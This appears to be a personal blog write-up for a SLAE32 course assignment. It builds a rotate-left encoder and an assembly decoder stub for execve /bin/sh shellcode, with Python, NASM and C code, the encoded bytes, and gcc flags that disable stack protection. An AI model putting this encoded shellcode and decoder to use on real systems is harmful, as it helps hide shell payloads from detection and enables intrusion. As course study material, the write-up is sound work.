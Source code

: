 ```yaml
---
title: SLAE32 Assignment 4 -- Rotation Encoder
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - rotate
  - Encoder
  - Decoder
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)

For my fourth assignment in the SLAE32 course, I created a custom Rotation Encoder.   
How this works is to encode the payload, it rotates every bit to the left by one. If the greatest bit (valued 128) falls off the left, it wraps around to the lowest bit (valued 1).  
Example:  

![](/assets/images/rotateLeft.png)

To decode, all the bits are rotated to the right by one. If there is a low bit, it is moved to the highest bit.  

![](/assets/images/rotateRight.png)

The payload used for this example is the `execve` shellcode provided in the SLAE course.  

To quickly grab the hex from shellcode, I used the method shown in the SLAE course.   
To make it easier, I added it to a shellscript.  
```bash
#!/bin/bash
OBJFILE=$1
objdump -d $(pwd)/${1} | grep '[0-9a-f]:' | grep -v 'file'\
| cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' \
| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s \
| sed 's/^/"/' | sed 's/$/"/g'
```
Grabbing the shellcode:
```bash
root@zed# ./objdump2hex.sh execve-stack 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
Perfect. Now we will need to encode this shellcode using the Python Encoder I created, `rotateLeftEncoder.py`.  
The new encoded shellcode is output in both the `\x` format and the `0x, ` format.  
As you can see in the top section, all that needs to be done to change the shellcode payload is replace the string in the shellcode array.  
```python
#!/usr/bin/python
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded1 = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded1 += '\\x'
        encoded1 += '%02x' %x   # Add the rotated left hex to string 
        encoded2 += '0x'
        encoded2 += '%02x,' %x  # Add the rotated left hex to string 
    else:
        encoded1 += '\\x'       # No leftmost bit, just rotate
        encoded1 += '%02x' %(x << 1)
        encoded2 += '0x'        # No leftmost bit, just rotate
        encoded2 += '%02x,' %(x << 1)
    
print encoded1
print encoded2
print 'Len: %d' % len(bytearray(shellcode))
```
Outputting our new, encoded shellcode:
```bash
root# python rotateLeftEncoder.py
Encoded shellcode ...
\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01                   
0x62,0x81,0xa0,0xd0,0x5e,0x5e,0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,0x16,0x9b,0x01,
Len: 25
```
Our encoded shellcode payload is 25 bytes. We will need to add a final byte to the end `\xff`.  
This byte will be used by our decoder to let it know it has reached the end of our payload.  
We will copy the second output with the "0x, " format to our nasm program after appending the byte.  

This assembly program will use the Jump-Call-Pop technique to save the memory location of our string to the stack and then pop that address into the ESI Register.   
Once in the ESI Register, we will decode our encoded shellcode byte by byte using the instructions `ror byte [esi], 1` (rotate to the right one bit, one byte at a time), and `inc esi`. If the decoded byte is `\xff` then we will jump to the shellcode using the instruction `je Shellcode`.   
If the byte is not `\xff` then the zero flag will not be set, and that jump will be ignored.   
The next instruction `jmp short decode` is an unconditional jump. We use this to create the loop to decode our shellcode.  
```nasm
; Filename: rotateRightDecoder.nasm
; Author:  Bobby Cooke

global _start

section .text
_start:
        jmp short call_decoder

decoder:
        pop esi

decode:
        ror byte [esi], 1
        cmp byte [esi], 0xFF
        je Shellcode
        inc esi
        jmp short decode
        
call_decoder:
        call decoder
        Shellcode: db 0x62,0x81,0xa0,0xd0,0x5e,0x5e,0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,0x16,0x9b,0x01,0xff
```
Now that both the decoder and encoder are created, the last thing to do is compile and test.  

To compile my Assembly code I used the NASM Compiler with these commands. After creating the object file with NASM, I linked the object file using `ld`.  
```bash
nasm -f elf32 rotateRightDecoder.nasm -o rotateRightDecoder.o
ld -o rotateRightDecoder rotateRightDecoder.o
```

I tested the shellcode using the C program shown in the SLAE course.   
After extracting the shellcode using the above bash script, I added it to the C program as the `code[]` array.  
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x0b\x5e\xd0\x0e\x80\x3e\xff\x74\x08\x46\xeb\xf6\xe8"
"\xf0\xff\xff\xff\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e"
"\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01\xff";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
To speed up compilation while developing my custom rotation encoder, I created a simple bash script to automate the process.
```bash
#!/bin/bash
SHELLCODE=$1
gcc -fno-stack-protector -z execstack -o shellcode $(pwd)/${SHELLCODE}
```

